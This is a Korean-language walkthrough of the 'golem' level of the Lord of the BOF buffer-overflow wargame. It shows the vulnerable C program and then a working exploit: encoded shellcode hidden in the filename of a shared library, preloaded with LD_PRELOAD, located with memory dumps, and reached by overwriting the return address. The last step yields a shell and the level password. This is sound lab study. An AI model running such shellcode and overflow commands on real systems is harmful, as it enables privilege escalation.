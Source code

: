 Skeleton -> Golem

**golem.c**
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);

        // stack destroyer!
        memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

stack destroyer 라는 것이 추가 되었습니다. ret를 제외한 모든 부분의 스텍을 0으로 초기화 시켜버립니다.<br>
혹시나 하고 스텍 값을 확인해 보았는데 아무것도 남지 않았습니다.<br>
어떻게 풀까 고민을 하던 중 선배가 공유라이브러리라는 힌트를 주셔서 겨우 풀었습니다.<br>
공유 라이브러리 영역에 라이브러리를 올릴 수 있는데 이 라이브러리 이름에 쉘코드를 포함시킬 것 입니다.

일단 라이브러리를 만들기 위해 아무 의미 없는 C파일을 하나 만들었습니다.
**hack.c**
```C
#include <stdio.h>

int main()
{  
    printf("HACK");

    return 0;
}
```
이제 소스를 컴파일 해서 object 파일을 생성하도록 하겠습니다.

```
[skeleton@localhost temp]$ gcc -fPIC -c hack.c
```

이러면 hack.o 파일이 생성되는 것을 볼 수 있습니다. 이제 .o파일로 .so파일을 생성해줄 것 입니다.<br>
```
[skeleton@localhost temp]$ gcc -shared -o `python -c 'print "ha" + "\x90"*50 + \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81" + "\x90"*50'`.so hack.o
```
이러면 쉘코드를 포함한 이름으로 .so 파일이 만들어지는 것을 알 수 있습니다.
이제 LD_PRELOAD 명령어를 통해서 이 공유 라이브러리를 등록 할 것 입니다.

```
[skeleton@localhost temp]$ export LD_PRELOAD=./ha?1?2ly???yyy2i00tii0cjo???.so
```

**[stack][shared libraries][heap][bss][data][text]**

다음과 같은 순서로 메모리가 이루어져 있기 때문에 저희가 주소를 찾을 때 평소처럼 x/100x $esp로 하면 절대 찾지 못합니다. 
x/100x $esp - 100 처럼 해야지 공유라이브러리 영역의 주소에 접근할 수 있을 것 입니다. 저는 무식하게 x/3000 $esp - 3000으로 하나씩 보면서 찾았습니다.

```
0xbffff54c:	0x00002fb2	0x40013868	0xbffff724	0x4000380e
0xbffff55c:	0x40014470	0x61682f2e	0x90909090	0x90909090
0xbffff56c:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff57c:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff58c:	0x90909090	0x90909090	0x11eb9090	0xb1c9315e
0xbffff59c:	0x0e6c8032	0xe98001ff	0xebf67501	0xffeae805
0xbffff5ac:	0xc132ffff	0x30306951	0x30696974	0x8a6f6a63
0xbffff5bc:	0x8a5451e4	0x0cb19ae2	0x909081ce	0x90909090
0xbffff5cc:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff5dc:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff5ec:	0x90909090	0x90909090	0x90909090	0x006f732e
```

여기서 보이는 주소로 한번 공격을 해보도록 하겠습니다.

```
[skeleton@localhost temp]$ ./golem `python -c 'print "A"*44 + "\x6c\xf5\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAl
Segmentation fault (core dumped)
```
코어 덤프가 떳습니다. 다시 주소를 확인해보도록 하겠습니다.

```
0xbffff574:	0xbffff744	0x4000380e	0x40014470	0x61682f2e
0xbffff584:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff594:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff5a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff5b4:	0x11eb9090	0xb1c9315e	0x0e6c8032	0xe98001ff
0xbffff5c4:	0xebf67501	0xffeae805	0xc132ffff	0x30306951
0xbffff5d4:	0x30696974	0x8a6f6a63	0x8a5451e4	0x0cb19ae2
0xbffff5e4:	0x909081ce	0x90909090	0x90909090	0x90909090
0xbffff5f4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff604:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff614:	0x90909090	0x006f732e	0x40013868	0x4000220c
```

바뀐 주소로 복사한 파일에 공격을 하여 성공하였습니다.

```
[skeleton@localhost temp]$ ./golem `python -c 'print "A"*44 + "\x94\xf5\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
bash$
```

그래서 그대로 원본파일에 공격을 하려고 temp에서 나왔는데 무슨일인지 어떤 명령어를 입력해도 오류가 나오는 걸 볼 수 있었습니다.
```
[skeleton@localhost skeleton]$ ls    
ls: error in loading shared libraries: ./ha鐞1ɱ2lÿ瀵󬩪ÿÿÿ2i00tii0cjo㐔⚱
                                                                      ΁.so: cannot open shared object file: No such file or directory
```
왜 오류가 생기는지 모르고 한참을 고민하다가 .so 파일이 이 디렉토리에는 없어서 라고 생각하고 파일을 복사해주었더니 오류가 사라졌습니다.

```
[skeleton@localhost skeleton]$ ls
golem  golem.c  ha??????????????????????????????????????????????????龞1ɱ2?l?ÿ??羵󪀨쀿ÿ2i00tii0cjo?㐔?࿱?̿??????????????????????????????????????????????????.so  temp
```

이제 아까 그대로 원본파일에 공격을 하였더니 공격에 성공한 것을  볼 수 있었습니다.
```
[skeleton@localhost skeleton]$ ./golem `python -c 'print "A"*44 + "\x94\xf5\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
bash$ my-pass
euid = 511
cup of coffee
```

